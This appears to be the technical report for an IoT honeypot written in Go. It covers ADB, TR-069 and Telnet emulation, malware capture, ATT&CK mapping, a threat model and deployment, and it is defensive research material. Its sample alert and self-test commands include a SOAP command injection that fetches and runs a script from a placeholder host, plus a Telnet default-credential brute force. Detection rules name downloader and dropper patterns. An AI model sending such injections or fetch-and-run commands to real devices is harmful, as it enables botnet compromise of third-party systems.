

# BotBait — technical report

> Full design, threat model, configuration and test notes. The project front page is the [README](../README.md).

## Overview

> A hardened, dependency-free Go honeypot that emulates the exposed management
> services targeted by IoT botnets (ADB, TR-064/TR-069 SOAP, Telnet), safely
> captures the malware they try to install, maps observed behaviour to
> **MITRE ATT&CK**, and raises enriched **Telegram** alerts. Every session is
> also logged as structured JSONL for offline threat-intelligence analysis.

- **Language / footprint:** Go 1.24, standard library only (no third-party modules), static binary, `scratch` container image.
- **Scope:** research and defensive threat intelligence. The honeypot never executes or forwards attacker input; a shell *emulator* answers commands from a data-only device profile.
- **Highlights:** ADB-first persona (Android TV box) with **`adb push` capture** and a virtual file system that harvests files bot scripts write; swappable **device profiles** with per-deployment identifiers; BusyBox router persona for Telnet; SSRF-guarded payload downloader; MITRE ATT&CK mapping; Telegram alerts; JSONL + SQLite analysis pipeline.
- **Project docs:** [`PROFILES.md`](PROFILES.md) · [`THREAT_INTELLIGENCE_PLAN.md`](THREAT_INTELLIGENCE_PLAN.md) · [`SECURITY.md`](../SECURITY.md) · [`CONTRIBUTING.md`](../CONTRIBUTING.md) · [`CHANGELOG.md`](../CHANGELOG.md) · MIT [`LICENSE`](../LICENSE)

---

## Table of contents

1. [Motivation and research questions](#1-motivation-and-research-questions)
2. [Architecture](#2-architecture)
3. [Protocol emulation](#3-protocol-emulation)
4. [Detection: IOC extraction and ATT&CK mapping](#4-detection-ioc-extraction-and-attck-mapping)
5. [Safe payload capture](#5-safe-payload-capture)
6. [Alert format](#6-alert-format)
7. [Threat model](#7-threat-model)
8. [Secure deployment guide](#8-secure-deployment-guide)
9. [Quick start](#9-quick-start)
10. [Configuration](#10-configuration)
11. [Telemetry and analysis](#11-telemetry-and-analysis)
12. [Testing and measured performance](#12-testing-and-measured-performance)
13. [Limitations and future work](#13-limitations-and-future-work)
14. [Ethics and legal considerations](#14-ethics-and-legal-considerations)
15. [References](#15-references)
16. [Repository layout](#16-repository-layout)
17. [Contributing, license and publishing](#17-contributing-license-and-publishing)

---

## 1. Motivation and research questions

Internet-facing IoT devices (home routers, set-top boxes, Android-based media
players with debug interfaces left enabled) are compromised at scale within
minutes of exposure. Botnets such as Mirai and its descendants spread by
scanning for a small set of services and replaying known exploits and default
credentials [[3]](#15-references). A *low-interaction* honeypot is a cheap,
safe sensor for this activity [[1]](#15-references).

This project is built to answer, with data from a real deployment:

| # | Research question | Evidence produced |
|---|---|---|
| RQ1 | Which networks (ASNs/countries) originate IoT-targeted scanning and exploitation against a fresh sensor? | `geo.asn`, `geo.country`, unique source IPs |
| RQ2 | Which exploits and service types dominate (SOAP/TR-064 injection, ADB shell, Telnet brute force)? | `protocol`, `http_path`, ATT&CK tags |
| RQ3 | What do attackers try to install, and how much payload infrastructure is reused across sources? | captured SHA256, payload URLs, hosting addresses |
| RQ4 | How quickly do payload links die (dead-link rate), and what does that imply for blocklist value? | download status distribution |
| RQ5 | Which default credentials are still in the attackers' dictionaries? | `credentials[]` |

## 2. Architecture



<details>
<summary>ASCII version</summary>

```
                         +-------------------- network layer (hot path) ---------------------+
 Internet  --TCP-->  Listener(5555/7547/2323) -> token bucket per /24 -> per-IP cap -> bounded queue
                                                                                         |
                                                                              worker pool (N goroutines)
                                                                                         |
                                                              Session: sniff protocol, emulate, record,
                                                              per-read deadline + absolute session deadline
                         +-------------------------------------------------------------- | Event
                         |                         pipeline (off the hot path)           v
                         |   non-blocking queue -> workers: normalise -> IOC extract -> ATT&CK map
                         |                                  |                 |
                         |                       payload downloader     ip-api enrichment      (parallel)
                         |                       (SSRF guard, 5 s,      (cache, 3 s timeout)
                         |                        15 MiB, sha256)
                         |                                  v
                         |              Telegram (bucket + dedupe)  ->  JSONL store  ->  Python / Jupyter
                         +---------------------------------------------------------------------------
```
</details>

### 2.1 Design principles

1. **Network path never waits on the outside world.** Sessions only enqueue an
   event. Payload hosts, ip-api and Telegram can be slow or hostile without
   affecting the listeners; if the pipeline queue is full, events are dropped
   and counted, never blocked on.
2. **Bounded everything.** Memory is bounded by `MaxConns + QueueSize` sessions
   (no goroutine-per-connection), `MaxReadBytes` per session, a capped
   rate-limiter key space, capped caches and a storage quota for payloads.
3. **Attacker input is data, never code.** Nothing is executed, evaluated or
   written to disk by the session layer; all text that reaches logs or alerts
   is sanitised and escaped.
4. **Fail closed, observe everything.** Every drop/limit increments a counter
   exposed on a loopback-only `/metrics` endpoint.

### 2.2 Concurrency model and graceful shutdown

| Mechanism | Where | Purpose |
|---|---|---|
| Fixed worker pool + bounded accept queue | `internal/server` | Cap concurrent sessions; excess connections are closed instead of piling up |
| Per-read / per-write deadlines | `internal/session` | Idle connections are reaped |
| Absolute session deadline | `internal/session` | **Slowloris** defence: trickling bytes cannot keep a slot open |
| Byte budget per session (`HP_MAX_READ_BYTES`) | `internal/session` | Bounds memory and analysis cost |
| Token bucket per source /24 (/64 for IPv6) | `internal/ratelimit` | Admission control; idle buckets swept, key space capped (fails closed) |
| Per-IP concurrent connection cap | `internal/server` | One host cannot occupy the whole pool |
| `signal.NotifyContext(SIGINT, SIGTERM)` | `cmd/honeypot` | Start orderly shutdown |
| Shutdown sequence | `server.Run` -> `pipeline.Shutdown` | Close listeners, expire read deadlines of live sessions so they flush their events, drain the pipeline (downloads, alerts, JSONL), then close the store; hard timeout `HP_SHUTDOWN_TIMEOUT` |
| `recover()` per session and per event | server / pipeline | A malformed payload cannot crash the process (counted in `session_panics_total`) |

## 3. Protocol emulation

The first bytes of a connection decide the protocol (`parser.Detect`), so one
port such as `5555` correctly handles both ADB and HTTP/TR-069 traffic.
Telnet ports (`HP_TELNET_PORTS`) are server-speaks-first.

**Why these ports.** The default set is `5555` (ADB), `7547` (TR-069/TR-064 CWMP)
and `2323` (published as Telnet `23` on the host; `2323` is the classic Mirai
alternative). Rationale and evidence level, so that it can be challenged:

* **Telnet 23/2323** - the original Mirai vector and still the busiest port in
  recent honeypot studies (about 15 times more traffic than SSH in a
  two-week Azure IoTPOT/Cowrie experiment, [Evolving IoT Botnet Threats, 2025](https://www.mdpi.com/2624-800X/6/3/82)).
* **ADB 5555** - actively exploited in 2026: the Mirai-based *xlabs_v1* botnet
  infects exposed ADB on Android TV boxes by pushing a binary to
  `/data/local/tmp` ([The Hacker News, May 2026](https://thehackernews.com/2026/05/mirai-based-xlabsv1-botnet-exploits-adb.html)).
* **TR-069/TR-064 7547** - the SOAP command-injection class behind the November 2016
  takeover attempt on Deutsche Telekom routers ([Radware advisory](https://www.radware.com/security/ddos-threats-attacks/threat-advisories-attack-reports/deutsche-telekom-routers-takeover/)); the emulator's
  SOAP handling and the `T1190` rule target exactly this. Vendor blogs list
  `23, 2323, 80, 8080, 37215` as typical outbound scan ports of infected devices
  ([Flowtriq, 2026](https://flowtriq.com/blog/iot-botnets-2026-landscape)).

I could not find a published, quantified 2026 *ranking* of all ports, so the
choice is a judgement from these sources, not a measurement. Your own data
will show what this sensor actually receives (section 11); other candidates for
extra listeners are `37215` (Huawei HG532) and `52869` (Realtek SDK), both
protocol-agnostic here: add them to `HP_PORTS` and map them in
`docker-compose.yml`.

The camera / DVR web personas (host ports `80` Hikvision, `81` TVT, `8080` Dahua;
container `8088`, `8081`, `8080`) are documented separately in
[WEB_PERSONAS.md](WEB_PERSONAS.md), including which behaviours rest on public
sources and which are approximations.

| Protocol | What is emulated | What is recorded |
|---|---|---|
| **HTTP** | Lenient request parser (bad `Content-Length`, chunked, pipelining up to 3 requests); `200 OK` with a `Boa/0.94.14rc21` banner, SOAP-shaped reply for SOAP requests | Method, target, User-Agent, headers and body (the full byte stream is analysed contiguously so a client lying about `Content-Length` cannot split an indicator) |
| **ADB** | `CNXN`/`AUTH` (always authorised) with a banner built from the device profile; `shell:` / `exec:` (v1 and `shell_v2` framing), interactive shell with pty echo, `sync:` (`STAT`/`LIST`/`RECV`/`SEND`/`DATA`), `root`/`unroot`/`remount`/`tcpip`/`reboot`; `tcp:`/`reverse:`/`forward:` are recorded and refused | Shell commands, **pushed files** (streamed into the sample store), pulls, forward/reverse attempts |
| **Telnet** | IAC negotiation, login dialogue from the profile (first login rejected by default), echo, then the same shell emulator as ADB | Credentials, command lines, files written by scripts |
| **RAW** | none | Bytes received (sanitised) |

**Not done by design:** no real shell or process is ever started (`os/exec` is
not used anywhere), nothing the attacker uploads is executed, and there are no
outbound connections on behalf of the attacker other than the bounded,
SSRF-guarded download of URLs they supply. This is what keeps the sensor
low-interaction and its risk profile small.

### 3.1 Device profiles, shell emulator and file capture

**Why ADB first.** Exposed ADB (TCP 5555) is one of the most actively scanned
IoT services, and an authenticated-by-default ADB gives bots a *file transfer*
primitive (`adb push`) that does not involve any URL. Capturing the bytes of
those pushes yields samples that a URL-only honeypot never sees.

* **Device profile ("legend").** A JSON document (embedded built-ins
  `android-tvbox`, `router-busybox`, or your own, see [`PROFILES.md`](PROFILES.md))
  defines `getprop`, `uname`, `/proc`, `ps`, packages, file-system skeleton,
  existing commands and the Telnet dialogue. Serial, Android ID, MAC and
  similar identifiers are derived from a per-deployment seed
  (`<HP_LOG_DIR>/profile.seed`), so that two installations are not
  byte-identical.
* **Shell emulator.** Parses `; && || |`, redirections, quotes, `$VAR`, globs,
  `for`/`while`/`if`, `sh -c`, `sh script`, `| sh`, `eval`; interprets ~150
  command names against an in-memory, copy-on-write file system. It *never*
  executes anything. Limits: 300 steps per command line, nesting depth 4,
  128 KiB output, bounded file system (512 KiB per file, 2 MiB total, 512
  nodes). Scripts hidden behind `base64 -d | sh` are revealed to the IOC
  extractor, so their URLs are still found. `wget`/`curl`/`tftp`/`ftpget`
  print a believable transcript; the real fetch is performed afterwards by the
  downloader.
* **File capture.** (a) `adb push`: the `SEND`/`DATA`/`DONE` stream is written
  incrementally to the sample store (never held in memory beyond 64 KiB),
  bounded by `HP_MAX_PUSH_BYTES` (hard ceiling 15 MiB) and the global quota.
  Truncated transfers are kept and marked *Incomplete*. The transfer is always
  acknowledged to the attacker, even if it could not be stored, so the next
  stage (`chmod`, execute) is still observed. (b) Files assembled in the
  emulated shell (`echo -e '\x7fELF...' > bot`, `base64 -d > bot`, `cat >`) are
  harvested at session end, **including files the script deleted afterwards**.
  Tampering with the profile's seed files is not harvested.
* **Result.** Each file is a `dropped` record in the event (path, delivery
  channel, mode, size, SHA-256, magic-byte type, saved/not-saved status),
  T1105 is tagged for executable drops, and the alert carries
  `📎 Dropped:` / `📦 SHA256:` lines.
* **Binary inspection and "magic" commands.** Droppers look at binaries before
  and after uploading them. The emulator provides `dd` (`if/of/bs/count/skip/seek`),
  `head`/`tail -c`, `od`, `hexdump [-C]`, `xxd`, `strings`, `file`, `md5sum`,
  `sha1sum`, `sha256sum`; device binaries read as an ELF image for the profile's
  CPU (the Mirai architecture probe `cat /bin/echo` works), and uploaded or
  written files read back their real content. Sample-specific behaviour can be
  scripted in the profile: `commands` also matches paths (`"./bot"`), and
  `exec_rules` define what running an uploaded file prints and returns, selected
  by path regexp, file type or SHA-256 (e.g. the "listening tun0" marker some
  droppers wait for). See [`PROFILES.md`](PROFILES.md).

## 4. Detection: IOC extraction and ATT&CK mapping

### 4.1 IOC extraction (`internal/ioc`)

* Text is first **normalised** (percent-decoding up to twice, HTML entities) so `wget%20http%3A%2F%2F...` and `&amp;&amp;` obfuscation are visible.
* **URLs** (`http`/`https`/`ftp`) are cut at shell and markup terminators (`;`, `|`, `&&`, `` ` ``, `$`, quotes, `<>`), validated with `net/url`, de-duplicated and capped.
* **Bare fetch targets** such as `wget 203.0.113.9/x.sh` are recognised.
* A URL is a **download candidate** if it is an argument of `wget|curl|tftp|ftpget|...` within the same command segment, or its extension looks like a payload (`.sh .elf .arm7 .mips .mpsl .x86 ...`).
* **IPv4** addresses are validated (`net/netip`); private, loopback and link-local addresses are discarded.
* **Domains** come from URL hosts, plus bare matches restricted to a curated TLD list (suppresses `busybox.sh`, `config.txt`).
* **False-positive blacklist** (`ioc.FalsePositiveHosts`): XML/SOAP/standards namespaces such as `schemas.xmlsoap.org`, `w3.org`, `schemas.dmtf.org`, `dslforum.org`, `purl.org`, `schemas.upnp.org` are dropped (host or any parent domain match).

### 4.2 MITRE ATT&CK mapping (`internal/mitre`)

Rule-based and auditable; every technique has a stated trigger.

| Technique | Triggered by | Scope |
|---|---|---|
| **T1190** Exploit Public-Facing Application | SOAP envelope / TR-064 markers (`urn:dslforum-org`, `SetNTPServers`, `SOAPAction`), command-injection syntax (`$(...)`, backticks, `;wget`, `${IFS}`, Shellshock, JNDI), path traversal, or a request path from a list of known vulnerable endpoints (`/boaform/`, `/GponForm/`, `/setup.cgi`, `/UD/act`, ...) | HTTP only |
| **T1059.004** Unix Shell | `cd /tmp`, `rm -rf`, `wget`/`curl <arg>`, `chmod +x`, `busybox`, `sh -c`, `\| sh`, `tftp -g`, `echo -e "\x..."` droppers | any protocol |
| **T1105** Ingress Tool Transfer | at least one download-candidate URL, or `tftp -g/-r`, `ftpget`, `busybox wget` | any protocol |
| T1110.001 Password Guessing | two or more credential attempts | Telnet |
| T1082 System Information Discovery | `uname`, `/proc/cpuinfo`, `getprop`, `/etc/os-release` | non-HTTP |
| T1496 Resource Hijacking | `xmrig`, `minerd`, `stratum+tcp`, ... | any protocol |

Design note: `wget` / `curl` match only when followed by an argument, so a
scanner with `User-Agent: curl/7.68.0` is **not** tagged as shell activity (unit-tested).

## 5. Safe payload capture

The URL to fetch is chosen by the attacker, so the downloader (`internal/downloader`) is a hostile-input boundary:

| Risk | Control |
|---|---|
| **SSRF** — payload URL points at `169.254.169.254`, `10.0.0.0/8`, `localhost`, or a DNS name that resolves/rebinds there | `net.Dialer.Control` rejects every non-public destination **at connect time**, after DNS resolution, for the first request and every redirect (private, loopback, link-local, multicast, CGNAT, TEST-NETs, NAT64, ...). Environment proxies are disabled so the guard cannot be bypassed. |
| Slow or endless responses | Hard wall-clock timeout (**5 s**, enforced `<= 5 s` by config validation) |
| Huge files | `io.LimitReader` at `HP_MAX_DOWNLOAD_BYTES` (**<= 15 MiB**, enforced); oversize -> `Download Aborted (Size Limit Exceeded)`, nothing kept |
| Decompression bombs | Compression is not negotiated; bytes are stored exactly as sent |
| Accidental execution | Stored as `<sha256>.bin`, mode `0600`, never executable; the scratch image contains no interpreter |
| Disk exhaustion | Global storage quota (`HP_MAX_STORAGE_MB`); content-addressed de-duplication |
| Hammering a victim host via our fetcher | Concurrency limit, per-event limit (3), 10-minute URL result cache, in-flight request coalescing |
| Dead link / timeout | Status `Download Failed (Dead Link or Timeout)` |

Layout of `captured_payloads/`: `<sha256>.bin` (sample) and `<sha256>.json`
(timestamp, source IP, URL, size, content type, magic-byte file type). Other
statuses: `Download Failed (HTTP <code>)`, `Download Skipped (Blocked Address | Unsupported Scheme | Storage Quota Reached | Per-Event Limit)`.

**Files that arrive without a URL** (ADB `push`, shell-written files) go through
the same store (`internal/payloadstore`) and therefore share the same
guarantees: content-addressed `<sha256>.bin` (mode `0600`), a `.json` sidecar
that accumulates every *sighting* (time, source IP, remote path, delivery
channel; max 50), a global quota that also counts bytes of in-flight transfers,
a per-file cap (`HP_MAX_PUSH_BYTES`, hard ceiling 15 MiB), a per-session cap
(8 files), orphaned temporary files removed at start-up, and `Not Saved`
statuses (`Storage Quota Reached`, `Size Limit Exceeded`, `Per-Session Limit`,
`Capture Disabled`) instead of silent loss. Set `HP_CAPTURE_PUSH=false` to
record pushes without keeping the bytes.

> **Never commit or open `captured_payloads/`.** It contains live malware. It is in `.gitignore`.

## 6. Alert format

Sent through the Telegram Bot API with `parse_mode=HTML`. All attacker-controlled
text is HTML-escaped, the payload sits in a `<pre>` block, and the message is
cut to stay under Telegram's 4096-character limit (`...[TRUNCATED]`), always on a
character boundary *before* escaping so entities are never split. Example
(documentation addresses and an abbreviated hash):

```
🚨 HONEYPOT ALERT (7547/HTTP) 🚨
🌐 Attacker IP: 203.0.113.77
🏢 ISP/ASN: Exampleland - Example Telecom AS64496
🏷 MITRE ATT&CK: T1059.004 (Unix Shell), T1105 (Ingress Tool Transfer), T1190 (Exploit Public-Facing Application)

📦 Parsed Payload Data:
[HTTP POST]

POST /UD/act?1 HTTP/1.1
Host: 192.0.2.10:7547
User-Agent: Hello-World
SOAPAction: urn:dslforum-org:service:Time:1#SetNTPServers
...<NewNTPServer1>`cd /tmp;rm -rf *;wget http://198.51.100.50/bins/mips.sh;chmod +x mips.sh;sh mips.sh`...[TRUNCATED]

🎯 Extracted IOCs & Payloads:
🔗 http://198.51.100.50/bins/mips.sh
📦 SHA256: 3b6f…(64 hex) | 4312 B (ELF)
```

Below the message Telegram shows three inline link buttons for the attacker IP:
`🔬 VirusTotal` and `🛡 AbuseIPDB` on the first row, `🌐 Check-Host` on the second.
In the real message the header and the field labels (`Attacker IP`, `ISP/ASN`,
`MITRE ATT&CK`) are **bold**, the action label (`[HTTP POST]`) is the first line of
the monospace payload block, the header uses non-breaking spaces so it wraps
cleanly on narrow phone screens, and their values, as well as the SHA-256, are monospace
(`<code>`, tap to copy). Only the hash of a captured file is published, never
its name on the sensor, so the channel can safely be public.

For files pushed over ADB (no URL) the IOC block carries, per file (max 3 shown):

```
📎 Dropped: /data/local/tmp/bot (adb-sync-push)
📦 SHA256: 9c1e…(64 hex) | 612000 B (ELF)
```

Alert hygiene: only events carrying T1190 / T1059.004 / T1105 /
T1496 are alerted (brute-force-only sessions are logged, optionally alerted via
`HP_ALERT_ON_BRUTE`); identical alerts (same IP + signature + URLs/hashes) are
suppressed for `HP_ALERT_COOLDOWN`, and the same payload from any address for
`HP_ALERT_CAMPAIGN_COOLDOWN` (state kept across restarts); a global token bucket caps messages per
minute; Telegram `429 retry_after` is honoured; the bot token is stripped from
transport errors before logging.

### 6.1 Weekly digest

Once a week (`HP_DIGEST_DAY`, `HP_DIGEST_AT`, UTC; default Monday `09:00`) the
sensor posts a summary of the previous 7 days to the same chat: sessions, unique
IPs, attacks, number of captured samples, then rankings with the share of sessions
(`• AS64496 - Example-Telecom-A (30.12%)`): ATT&CK techniques ("Attack Type"), target
ports, source ASNs, source countries (flag + ISO code) and the most frequent shell
commands. ASN and country shares are computed over the sessions whose IP could be
resolved. Each ranking is a monospace `<pre>`
block under a bold heading, the same style as the payload in an alert. **No file
hashes are listed** (only the number of samples); hashes appear in the per-event
alerts. The digest is computed natively from the JSONL log, so the `scratch` image
needs no Python and no state file is kept. Scan-only sessions are not enriched at
event time (to save the free `ip-api.com` quota); the digest resolves up to
`HP_DIGEST_ENRICH_MAX` of the busiest unresolved IPs, rate-limited, and says how
many IPs have no ASN/country. If the container is down at the scheduled time that
week's digest is skipped.

```
docker compose exec honeypot /honeypot -digest-preview   # print, send nothing
docker compose exec honeypot /honeypot -digest-now       # send to Telegram now
```

## 7. Threat model

### 7.1 Assets, actors, trust boundaries

* **Assets to protect:** the host and its network (primary), the confidentiality of the Telegram token and chat, integrity of the collected dataset, availability of the sensor, and third parties who could be harmed through the sensor.
* **Adversaries:** (A1) automated scanners/botnets (the intended audience); (A2) a skilled human who suspects a honeypot and probes it; (A3) an adversary who tries to abuse the honeypot's *outbound* capability (downloader, Telegram); (A4) a passive observer of the honeypot's own network traffic.
* **Trust boundaries:** Internet -> listener (untrusted bytes); session -> pipeline (event data is still attacker-controlled); pipeline -> payload hosts (attacker-chosen destinations); pipeline -> ip-api / Telegram (third-party services); container -> host (isolation boundary).
* **Out of scope:** kernel/container-runtime zero-days, a compromised host operator, physical access.

### 7.2 Threats and mitigations (STRIDE-style)

| ID | Threat | Category | Mitigation | Residual risk |
|---|---|---|---|---|
| T1 | Connection flood / Slowloris exhausts goroutines, memory or file descriptors | DoS | Fixed worker pool, bounded queue, per-IP cap, subnet token bucket, per-read + absolute deadlines, byte budget, container `pids_limit`/`mem_limit`/`nofile` | A volumetric DDoS saturating the link is out of scope |
| T2 | **SSRF** via payload URL to internal services / cloud metadata | EoP / Info disclosure | Dial-time public-address guard incl. redirects and DNS rebinding; no proxy; optional host egress rules (section 8) | Needs the guard *and* egress filtering for defence in depth |
| T3 | Captured malware executed or opened by mistake | Tampering | Non-executable, content-addressed files; read-only root FS; no shell in image; guidance to store on a `noexec` mount; analysis only in an isolated VM | Human error during analysis |
| T4 | Injection through attacker data: HTML into Telegram, log forging, terminal escapes | Tampering / Spoofing | HTML escaping of every field, control-character sanitisation, JSON encoding for logs, `<pre>` for payload | — |
| T5 | Compromise of the honeypot process (parser bug) | EoP | Memory-safe language, no CGO, no third-party code, no execution of input, `recover()`, non-root UID 10001, `cap_drop: ALL`, `no-new-privileges`, read-only FS, `scratch` image | Go runtime/kernel 0-days |
| T6 | Pivoting from the honeypot into the host network | EoP | Dedicated host/VPS or VLAN, no secrets or credentials on the box, egress rules blocking RFC1918 | Misconfigured network |
| T7 | Telegram token leakage (logs, image, repo) | Info disclosure | Only via environment / `.env` (git-ignored, `chmod 600`), never logged, redacted in errors, not baked into the image | Host compromise |
| T8 | **Honeypot fingerprinting** (static banners, canned outputs) leads attackers to skip or poison the sensor | Spoofing | Swappable device profiles; per-deployment random serial/MAC/Android ID; coherent props/packages/processes; profile authoring guide; documented as a known limitation of low-interaction designs | **Medium-high / accepted** — a determined human can still tell; results describe automated, non-evasive activity |
| T9 | Downloader abused as an anonymous fetch-proxy against third parties | Abuse | Per-event limit, URL cache, concurrency cap, GET only, response not returned to the attacker, egress rate limiting at the firewall | Low-volume GETs to chosen public hosts remain possible |
| T10 | Disk fill via payloads or logs | DoS | Storage quota, size cap, de-duplication; log rotation (daily files) and Docker log limits | Operator must rotate/archive JSONL |
| T11 | Dataset poisoning (forged URLs pointing at benign sites, spoofed content) | Integrity | Source address is the TCP peer (handshake completed); XML-namespace blacklist; cross-validate payload hashes with external intelligence before drawing conclusions | Attacker-controlled content is inherently untrusted |
| T12 | Privacy/legal exposure from storing IP addresses | Compliance | Data minimisation, retention policy, no victim-side data (section 14) | Jurisdiction-specific |
| T13 | **Storage abuse through uploads**: `adb push` of huge or endless streams, many files, repeated pushes | DoS | Streaming writer with per-file cap (<= 15 MiB), global quota including in-flight bytes, 8 files per session, read budget granted once per session, extended deadline capped at 120 s, content-addressed de-duplication | Quota fills with junk; raise `HP_MAX_STORAGE_MB` or prune |
| T14 | **Shell-emulator abuse**: fork-bomb-style loops, huge `yes`/`cat` outputs, file-system growth, pathological globs | DoS | Step budget (300), iteration caps on loops, recursion depth 4, output cap 128 KiB, VFS node/size/write budgets, no real execution so no real fork bomb | Cost is bounded CPU per session |
| T15 | Attacker uses the honeypot's ADB as a **relay** (`adb forward`, `reverse`, `tcp:host:port`) | Abuse | Never honoured: stream is refused, attempt recorded as an IOC | — |

## 8. Secure deployment guide

> Deploy on an **isolated, disposable** machine (small VPS or lab VM) that holds
> no credentials and has no route to your internal networks. Do not run it on
> your workstation or home network.

1. **Prepare the host.** Fresh Linux install, automatic security updates, Docker Engine with the Compose plugin. Move the real SSH daemon off ports you will expose (e.g. to a high port, key-only, restricted by firewall to your IP).
2. **Network placement.** Put the sensor in its own VLAN/VPC security group. Allow inbound only to the honeypot ports; allow outbound only as needed (DNS, HTTP/HTTPS/arbitrary TCP for payload fetching, Telegram, ip-api, and `api.abuseipdb.com` when auto-reporting is on).
3. **Egress filtering (defence in depth for the SSRF guard).** Find the Compose network subnet (`docker network inspect iot-honeypot_honeynet`) and drop traffic from it to private ranges *before* any ACCEPT rule:
   ```bash
   SUBNET=172.20.0.0/16   # replace with your honeynet subnet
   for NET in 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16 169.254.0.0/16 100.64.0.0/10; do
     sudo iptables -I DOCKER-USER -s "$SUBNET" -d "$NET" -j DROP
   done
   ```
   Test it: from inside the container network, a connection to an internal address must fail. Adapt for `nftables`/IPv6 as appropriate.
4. **Storage.** Create the directories and give them to UID 10001:
   ```bash
   make init-dirs      # mkdir captured_payloads data; chown 10001:10001
   ```
   Compose bind mounts cannot set `noexec`; for production mount the payload directory from a dedicated partition or loop file with `noexec,nosuid,nodev` and bind that into the container.
5. **Secrets.** `cp .env.example .env && chmod 600 .env`, then set `TELEGRAM_BOT_TOKEN` and `TELEGRAM_CHAT_ID`. Create the bot with @BotFather and use a **private** chat or channel dedicated to the sensor. Rotate the token if it is ever exposed.
6. **Port exposure.** `docker-compose.yml` publishes `5555`, `7547`, `80`, `81` and `8080` and maps host `23` to container `2323` and host `80` to container `8088` (the process never needs privileges). After the first connection, check that logged `src_ip` values are real client addresses and not the Docker gateway (an issue with IPv6 and the userland proxy).
7. **Start and verify.**
   ```bash
   docker compose up -d --build
   docker compose ps                    # STATUS should become "healthy"
   docker compose exec honeypot /honeypot -healthcheck && echo ok
   docker compose logs -f honeypot
   ```
   `/healthz` and `/metrics` listen on the container's own loopback (`127.0.0.1:9100`), so they are **not** reachable from the host or the Internet; the image has no `curl`, hence the built-in `-healthcheck` flag. To scrape metrics with a local Prometheus, set `HP_METRICS_ADDR=0.0.0.0:9100` and publish it on the host loopback only (`ports: ["127.0.0.1:9100:9100"]`); never publish it on a public interface.
8. **Operate.** Review `honeypot_events_dropped_total`, `..._rate_limited_total` and `..._alert_errors_total`; archive and prune `data/*.jsonl` and `captured_payloads/` on a schedule; update the image regularly (`docker compose build --pull`).
9. **Analyse malware only in isolation:** copy samples off the box, work inside a snapshot-able VM without network access (or a proper sandbox), and compare hashes with VirusTotal rather than uploading unknown business data.

Container hardening in `docker-compose.yml`: `user: 10001`, `read_only: true`,
`cap_drop: [ALL]`, `no-new-privileges`, `tmpfs /tmp (noexec,nosuid,nodev)`,
`pids_limit`, `mem_limit`, `cpus`, `ulimits`, bounded log size, dedicated bridge.

## 9. Quick start

### Option A — one-command install (Debian/Ubuntu server, runs in the background)

```bash
unzip iot-honeypot.zip && cd iot-honeypot
sudo bash install.sh
```

`install.sh` installs Docker Engine and the Compose plugin from the official
Docker apt repository if they are missing, asks for the **Telegram bot token**
(hidden input) and the **chat ID** (leave empty to auto-detect it after you message
the bot), validates both against the Telegram API and sends a test message, copies the
project to `/opt/iot-honeypot`, writes a private `.env` (mode 600), checks that the
host ports are free (and lets you pick others), builds the image and starts the
container detached with `restart: unless-stopped`, so it survives crashes and reboots.
Re-running it updates the installation and keeps your data and saved Telegram settings.

```bash
sudo bash install.sh --uninstall           # stop and remove; data is kept
sudo bash install.sh --uninstall --purge   # also delete ALL data and captured samples
sudo bash install.sh --help                # non-interactive flags: --token --chat-id --yes ...
```

Non-interactive example: `TELEGRAM_BOT_TOKEN=... TELEGRAM_CHAT_ID=... sudo -E bash install.sh --yes`.
Automatic Docker installation is supported on Debian/Ubuntu only; elsewhere install
Docker + Compose first and the script will use them. Read section 8 before exposing
the machine to the Internet.

### Option B — manual

```bash
# 0. Tests (Go 1.24+)
make check                     # go vet + go test -race ./... + gofmt check

# 1. Run locally without Docker (high ports, no root needed)
cp .env.example .env           # leave Telegram empty to disable alerts
HP_PORTS=15555,17547,12323 HP_TELNET_PORTS=12323 HP_LOG_DIR=./data HP_PAYLOAD_DIR=./captured_payloads \
  go run ./cmd/honeypot

# 2. Run with Docker
make up                        # creates data dirs, builds, starts
make logs
```

Safe self-test (the honeypot never executes any of this; run it from another terminal):

```bash
# simulated TR-064-style injection against the HTTP emulation
curl -s -X POST 'http://127.0.0.1:17547/UD/act?1' -H 'SOAPAction: urn:dslforum-org:service:Time:1#SetNTPServers' \
  --data '<NewNTPServer1>`cd /tmp;wget http://example.invalid/mips.sh;sh mips.sh`</NewNTPServer1>'

# simulated Telnet brute force + Mirai-style probe
printf 'root\r\nxc3511\r\nadmin\r\nadmin\r\n/bin/busybox ECCHI\r\nexit\r\n' | nc -w3 127.0.0.1 12323
```

Because `example.invalid` cannot resolve, the event is logged with
`Download Failed (Dead Link or Timeout)`, which exercises the failure path end to end.

## 10. Configuration

All settings are environment variables (a `.env` file is loaded if present;
real environment wins). The complete, commented list is in [`.env.example`](../.env.example).
Invalid values are reported together at start-up. Key settings:

| Variable | Default | Meaning |
|---|---|---|
| `HP_PORTS` | `5555,7547,2323,8088,8081,8080` | Listening ports (container side) |
| `HP_WEB_PORTS` | `8088=hikvision,8081=tvt,8080=dahua` | Container port to camera/DVR web persona ([details](WEB_PERSONAS.md)) |
| `HP_PORT_LABELS` | `2323:23,8088:80,8081:81` | Public port shown in alerts and telemetry |
| `HP_TELNET_PORTS` | `23,2323` | Ports where the server sends the login banner first |
| `HP_MAX_CONNS` / `HP_QUEUE_SIZE` | `256` / `256` | Worker pool size / accept queue |
| `HP_MAX_CONNS_PER_IP` | `8` | Concurrent sessions per address |
| `HP_READ_TIMEOUT` / `HP_WRITE_TIMEOUT` | `5s` / `5s` | Per-operation deadlines |
| `HP_SESSION_TIMEOUT` | `20s` | Absolute session lifetime |
| `HP_RATE_PER_SEC` / `HP_RATE_BURST` | `1` / `10` | Token bucket per subnet |
| `HP_DOWNLOAD_TIMEOUT` | `5s` | **Max 5 s** (validated) |
| `HP_MAX_DOWNLOAD_BYTES` | `15728640` | **Max 15 MiB** (validated) |
| `HP_MAX_STORAGE_MB` | `512` | Payload directory quota (downloads **and** captured files) |
| `HP_PROFILE` | `android-tvbox` | Device persona for ADB (built-in name or JSON path) |
| `HP_TELNET_PROFILE` | empty (`.env.example`: `router-busybox`) | Separate Telnet persona; empty = same as `HP_PROFILE` |
